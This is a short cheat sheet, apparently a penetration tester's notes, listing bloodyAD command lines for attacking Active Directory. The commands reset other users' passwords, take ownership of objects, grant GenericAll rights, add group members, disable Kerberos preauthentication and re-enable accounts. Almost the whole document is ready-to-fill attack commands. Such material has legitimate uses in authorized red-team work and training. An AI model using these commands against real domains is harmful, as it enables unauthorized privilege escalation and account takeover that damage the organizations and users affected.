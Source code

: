 # bloodyad
#plateform/linux #target/remote #cat/ATTACK

## change password / set password
```
bloodyAD --host <target> -d <domain> -u <user> -p '<passwd>' set password <target_user> '<new_passwd|Password123!>'
```

## Get writable 
```
bloodyAD --host <IP_ADDRESS_OR_HOST> -d <DOMAIN> -u <USERNAME> -p '<PASSWORD>' get writable
```

## Set owner
```
bloodyAD --host <IP_ADDRESS_OR_HOST> -d <DOMAIN> -u <USERNAME> -p '<PASSWORD>' set owner '<object>' <our_user>
```

## Add GenericAll 
```
bloodyAD --host <IP_ADDRESS_OR_HOST> -d <DOMAIN> -u <USERNAME> -p '<PASSWORD>' add genericAll '<object>' <our_user>
```

## Add group member 
```
bloodyAD --host <IP_ADDRESS_OR_HOST> -d <DOMAIN> -u <USERNAME> -p '<PASSWORD>' add groupMember <group> <member>
```

## Disable preauth
```
bloodyAD --host <IP_ADDRESS_OR_HOST> -d <DOMAIN> -u <USERNAME> -p '<PASSWORD>' add uac '<object>' -f DONT_REQ_PREAUTH
```

## Enable Account
```
bloodyAD --host <IP_ADDRESS_OR_HOST> -d <DOMAIN> -u <USERNAME> -p '<PASSWORD>' remove uac '<TARGET_USER>' -f ACCOUNTDISABLE
```


## Change attribute
```
bloodyAD --host "<IP_ADDRESS_OR_HOST>" -d <DOMAIN> -u <USERNAME> -p '<PASSWORD>' set object <TARGET_USER> <ATTRIBUTE> -v <ATTRIBUTE_VALUE>
```

